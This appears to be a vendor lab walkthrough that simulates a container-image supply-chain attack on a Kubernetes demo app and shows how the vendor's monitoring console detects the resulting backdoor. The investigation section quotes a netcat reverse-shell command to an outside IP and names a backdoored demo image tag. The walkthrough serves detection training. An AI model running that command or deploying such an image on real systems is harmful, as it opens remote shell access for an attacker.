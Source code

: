 # Supply-Chain Attack

This scenario demonstrates a supply chain attack where a container image is getting an update with malicious code to create a backdoor to a kubernetes cluster environment. It shows how through the use of policies for applications running on the cluster, unanticipated changes in the behavior of these application can be detected early and remediated.

## Pre-requisites
You will need
- a cluster where you can deploy services, deployments, pods, with access to docker image hub for pulling images
- a kubectl client
- a kubectl configuration with its current context pointing to the cluster

## Initial setup

If you have not yet done the inital installation steps for these attack scenarios, refer to [Spyderbat eval repository](https://github.com/spyderbat/eval)

If your setup was successful, you should see a namespace called `supply-chain` in your cluster, and some resources in it, like so:

```sh
kubectl get all -n supply-chain

NAME                            READY   STATUS    RESTARTS   AGE
pod/mongodb-66b5d7df55-b6q5j    1/1     Running   0          18h
pod/rsvp-app-587559dbf4-fnvzq   1/1     Running   0          18h
pod/rsvp-app-587559dbf4-mbxkl   1/1     Running   0          18h

NAME               TYPE        CLUSTER-IP      EXTERNAL-IP   PORT(S)        AGE
service/mongodb    ClusterIP   10.43.220.107   <none>        27017/TCP      25h
service/rsvp-app   NodePort    10.43.201.79    <none>        80:30135/TCP   25h

NAME                       READY   UP-TO-DATE   AVAILABLE   AGE
deployment.apps/mongodb    1/1     1            1           25h
deployment.apps/rsvp-app   2/2     2            2           25h

NAME                                  DESIRED   CURRENT   READY   AGE
replicaset.apps/mongodb-66b5d7df55    1         1         1       18h
replicaset.apps/rsvp-app-587559dbf4   2         2         2       18h
```

## Inspecting the setup
We can have a look at what this looks like in the cluster, and what processes are running in the Spyderbat Console.

Log in to the console, click on the Kubernetes menu item in the navigation bar, pick your cluster in the Cluster dropdown, and click on New Search.

Now, pick the 'Workload View' to see all kubernetes artefacts, and in the facet filter on the left, select the supply-chain namespace.

![K8s view of the application](./supply_chain_1.png)

We can see a deployment/replicaset/pod for the mongodb backend for the application, and a deployment/replicaset with two pods for the web-tier of the application.

Let's have a closer look at the web tier, and inspect the manifest of the pod. Click on one of the rvsp-app pods and scroll down in the lower pane to inspect the kubernetes definition, down to the spec section.

![rsvp app pod spec](./supply_chain_2.png)

We can see the app is running an image `guyduchatelet/spyderbat-demo:1`

We can assess what is running in this image by inspecting the container that is running it. Right-click on the container and select 'investigate container'
![investigate container](./supply_chain_3.png)

This brings us to a process view of everything running inside of the container:

![container process view](./supply_chain_4.png)

We can tell from this the entrypoint of the container spawns a python process, and another child python process to run the web
server. That is the normal state of this web server container


## Running the Exploit

For this exploit, we are going to simulate a supply chain attack on
the image of the web app we deployed. Imagine a newer version of the image gets pushed to the image repo, and that image got compromised and contains embedded code to gain access, through a backdoor.

The application developers are unaware and will push a newer version
of the image.

Let's simulate that action by updating the web deployment to use a more recent version of the image.

Find the file supply-chain.yaml under the modules directory of the eval repo, and open it up in your editor of choice.

Look for the deployment definition with name 'rsvp-app', and find the spec section. In the container properties, update the image from
`guyduchatelet/spyderbat-demo:1` to `guyduchatelet/spyderbat-demo:2`

After saving, now let's apply this change to the cluster:

```sh
kubectl apply -f supply-chain.yaml

namespace/supply-chain unchanged
deployment.apps/mongodb unchanged
service/mongodb unchanged
deployment.apps/rsvp-app configured
service/rsvp-app unchanged
```
We can see that the rsvp-app deployment is getting updated. The existing pods will be removed, and new pods will take their place.

## Investigating the Results

Give it a few minutes for these changes to take effect, and then we can go back to the Spyderbat UI to evaluate the change in behavior

Go back to the Kubernetes view in the UI, pick your cluster, update your start-time selection to 'Now', for the most recent view on your cluster, select the workload view. Then locate again the supply-chain namespace, and the rsvp-app and its containers.

Depending on your timing, you might see both the older deployment (with the previous image) and the newer deployment side to side in this view, like here:

![container process view](./supply_chain_6.png)

On the left, we see the old deployment, on the right the new deployment came in. Already in this view, there is an indication things have changed - we see several redflags that have been raised on the new containers. These flags can be inspected for more detail.

Let's pivot again into the full process view inside the container. Pick a container and inspect it again as before to look at the processes running inside. Here's what we see:

![compromised container process view](./supply_chain_5.png)
Clearly the behavior of this image has changed, it's no longer just running a python web server but is running several suspicious commands. We can see it is running a netcat command
```bash
/tmp/nc 54.161.223.45 443 -e /bin/bash
```
Which seems to have succeed in creating a backdoor towards a system on the internet.

## Next Steps

Given the identification of the backdoor, the most prudent course of action is to work with the application developer to roll back to the older version of the app, and further investigate other suspicious activity on the kubernetes nodes.

Spyderbat also can provide a very strong defense against this type of attack by leveraging a Guardian policy for a container image, that will specify explicitly what is the expected behavior of the image, and automatically alert on, or even kill pods where the behavior differs.

We will explore this in the "Image Policies — Supply-Chain Attack" scenario.

